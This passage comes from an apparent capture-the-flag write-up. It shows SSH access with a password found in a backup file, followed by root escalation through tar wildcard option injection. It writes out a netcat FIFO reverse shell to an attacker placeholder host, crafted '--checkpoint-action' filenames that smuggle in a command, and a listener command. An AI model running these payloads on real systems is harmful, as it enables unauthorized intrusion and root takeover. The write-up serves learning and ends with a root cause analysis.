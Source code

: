 While enumerating the system, `/opt/.password.bak` was discovered and contained a password:

```
andres backup password
UQfsdCB7aAP6
```

Use the password to SSH as `andre`:

```bash
ssh andre@10.10.233.238
# password: UQfsdCB7aAP6
cat ~/user.txt

```

`andre` did not have sudo privileges.

---

## 5. Privilege escalation to `root`

A backup directory (`/home/andre/backup`) was writable by `andre`. The backup system erroneously interpreted filenames beginning with `--` as command-line options. The attack created three items in the `backup` directory:

* `shell.sh` (a script that creates a FIFO and connects back to attacker's listener)
* A file named `--checkpoint-action=exec=sh shell.sh` (this is interpreted as an option that executes `sh shell.sh`)
* A file named `--checkpoint=1`

Example `shell.sh` contents:

```bash
mkfifo /tmp/lhennp; nc <ATTACKER_IP> 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp
```

Then the attacker awaited a connection on their listener:

```bash
nc -lnvp 8888
```

When the backup/restore routine ran (or processed the attacker-created filenames), it treated `--checkpoint-action` as a valid option and executed the supplied `shell.sh`, giving a root shell

```
id
# uid=0(root) gid=0(root)
cat /root/root.txt

```

---

## 6. Root cause analysis

Primary root cause: **Option injection via unsanitized filenames** used by privileged backup/restore tooling. The backup process likely called `tar` or another CLI tool with untrusted filenames, allowing crafted filenames beginning with `--` to be parsed as options (like `--checkpoint-action=exec=sh shell.sh`).
